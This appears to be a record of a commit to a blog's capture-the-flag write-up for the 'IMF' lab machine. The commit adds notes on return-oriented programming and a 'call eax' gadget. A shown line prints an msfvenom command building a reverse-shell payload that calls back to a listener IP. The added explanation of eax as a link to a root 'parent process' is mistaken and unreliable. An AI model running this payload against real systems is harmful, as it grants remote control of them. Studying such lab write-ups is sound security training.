

Before and after one commit to m4l1c3/m4l1c3.github.io, a Jekyll site: the page built from _posts/2016-11-24-imf.markdown, in a window 1280 px wide and 900 px high, scrolled down 3455 px. Shown: the whole window, without its empty margins (238-1039 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Adding more info on using ropshell, rop, and the assembly used to exploit.

```diff
--- a/_posts/2016-11-24-imf.markdown
+++ b/_posts/2016-11-24-imf.markdown
@@ -178,6 +178,10 @@
 
 This reads user input, however the size of the input isn't defined, looks like a possible buffer overflow, basically we're passing in more information that the command is going to properly handle and extending the application's memory outside of it's contextual boundary causing an error to occur.
 
+After doing some reading on ways to exploit the buffer overflow I stumbled onto the idea of return oriented programming, tl;dr; Its a way to execute a buffer overflow when defense mechanisms like code-signing and non-executable memory are employed.  In this technique you can send machine language that is already in the machine's memory, whether through the program being exploited itself or other shared libraries.  When these pieces when combined can be used to perform actions on the remote machine.
+
+I was able to upload the agent binaries we got earlier to ropshell.com which analyzes the compiled code for items in memory that can be used in an exploit, in this case: call eax.  Ater reading through some reference docs for assembly, specifically x86 I have surmised that with our goal being getting a root shell by escaping the 'agent' service causing a buffer overflow to occur and running 'call eax.'  In doing so we would be calling eax which is potentially a reference to the parent process of the service, in this case a shell runnint as root.  I'm basing this on the concept that eax register in the processor can be used to execute code in the register to circumvent normal program execution.
+
 Now to generate a buffer to overflow using msfvenom:
 
 msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.161.128 LPORT=4445 -f python -b "\x00\x0a\x0d"
```
